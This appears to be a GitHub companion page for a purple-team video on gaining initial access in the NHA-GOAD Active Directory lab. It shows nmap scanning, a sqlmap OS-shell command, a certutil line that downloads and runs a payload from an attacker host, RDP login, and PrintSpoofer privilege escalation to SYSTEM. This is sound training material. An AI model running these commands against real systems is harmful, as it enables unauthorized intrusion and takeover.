 ## **05 - Initial Access - Purple Team Cyber Range with NHA-GOAD**

This GitHub page is a companion to the fifth video in our **Purple Team Cyber Range** series, where we explore how to gain **initial access** using techniques such as **SQL injection** and other offensive tactics in the **NHA-GOAD** Active Directory lab environment. The lab is designed for attack and defense exercises, providing a realistic experience for both red and blue teams.

## 📺 **Watch the Video**

**Video Title**: _05 - Initial Access - Purple Team Cyber Range with NHA-GOAD_  
[Watch the video on YouTube](https://www.perplexity.ai/search/hello-jPst_9ZTTs.NcfMh.UjY1g#) (Placeholder for video link)

## 🛠️ **Key Takeaways**

1. **Initial Recon and Access**:
    
    - We start by performing a network scan using **Nmap** to identify open ports and services on the target machines.
    - After identifying potential vulnerabilities, we exploit them using **SQL injection** to gain initial access to the system.
    
2. **SQL Injection Exploitation**:
    
    - Learn how to use **SQLMap** to automate SQL injection attacks and gain access to the target database.
    - We also demonstrate how to escalate from SQL injection to an OS shell on the target machine.
    
3. **Command and Control (C2) Setup**:
    
    - Once initial access is gained, we set up a **Sliver C2 server** to manage the compromised machines.
    - We use reverse shells and other techniques to maintain persistent access.
    
4. **Privilege Escalation**:
    
    - After gaining initial access, we escalate privileges using tools like **SweetPotato** to obtain SYSTEM-level access.
    

## 📚 **Resources**

Here are some useful resources mentioned in the video:

- [NHA-GOAD Guide](https://docs.ludus.cloud/docs/environment-guides/goad-nha): Official documentation on setting up NHA-GOAD.
- [Elastic SIEM Guide](https://docs.ludus.cloud/docs/environment-guides/elastic): Guide on integrating Elastic Security SIEM.
- [GOAD GitHub Repository](https://github.com/Orange-Cyberdefense/GOAD): Source code and more information about GOAD from Orange Cyberdefense.

## Previous Videos:

- [Video 1: How to Deploy a Cyber Range Using Ludus: NHA-GOAD for Purple Teaming & Elastic Security SIEM](https://youtu.be/cjTzWQ_Si3U)
- [Video 2: How to Connect to Ludus GOAD with Elastic Using WireGuard](https://youtu.be/fM65Mm011bg)
- [Video 3: Testing Our Lab Against Default Sliver C2 Implants - The Lab Works!](https://youtu.be/L5DtvxOriOU)
- [Video 4: How to Install Sysmon in Active Directory Lab on Ludus](https://youtu.be/bK5Tnf92O-Y)

## 🚀 **Getting Started**

## 1. **Network Scanning**

Start by scanning the network to identify live hosts and open ports:



`nmap -p- -sC -sV 10.2.10.0/24 -Pn -oA allports.nmap`

![[Pasted image 20241109215231.png]]

This command performs a full port scan (`-p-`), service detection (`-sV`), and saves the results in multiple formats (`-oA`).

## 2. **SQL Injection Exploitation**

Once you've identified a vulnerable web server, use SQLMap to exploit SQL injection vulnerabilities:

`sqlmap -u "http://10.3.10.32/Students?SearchString=a&orderBy=Firstname" --os-shell --batch --threads 10`

This command attempts SQL injection on the specified URL and attempts to gain an OS shell.

## 3. **Command and Control (C2) Setup**


### Upload using sql shell
```
certutil.exe -split -f -urlcache http://10.2.10.99:8080/backup.exe 

#execute backup.exe
c:\windows\tasks\backup.exe
```

After gaining an OS shell, set up a reverse shell for persistent access:

`xfreerdp /v:10.2.10.32 /u:localuser /p:'password' /cert:ignore +clipboard /dynamic-resolution`

Use this command to connect remotely via RDP once credentials are obtained.

## 4. **Privilege Escalation**

To escalate privileges, upload a tool like SweetPotato or PrintSpoofer:

`upload /home/kali/payloads/PrintSpoofer.exe C:\\Windows\\Tasks\\PrintSpoofer.exe 
`execute -o "C:\windows\Tasks\PrintSpoofer.exe -i -c C:\Windows\Tasks\backup.exe"`

This command runs the PrintSpoofer tool, allowing you to escalate privileges from a local user account to SYSTEM.

![[Pasted image 20241109224956.png]]

## ⚠️ **Disclaimer**

This project is intended for **educational purposes only**. The tools and techniques demonstrated should only be used in environments where you have explicit permission to perform penetration testing or security assessments. Unauthorized use of these tools may violate laws and regulations.

## 🔧 **Tools Used**

- **Ludus Platform**: A cloud-based platform for deploying cybersecurity labs.
- **NHA-GOAD**: A pre-configured Active Directory environment designed for attack and defense simulations.
- **SQLMap**: An open-source tool used for automating SQL injection attacks.
- **Sliver C2 Framework**: An open-source command-and-control framework used by attackers for post-exploitation tasks.
- **SweetPotato/PrintSpoofer**: Tools used for privilege escalation on Windows systems.

Thank you for visiting! Be sure to subscribe to [I.T Security Labs on YouTube](https://www.youtube.com/@ITSecurityLabs) for more tutorials and updates!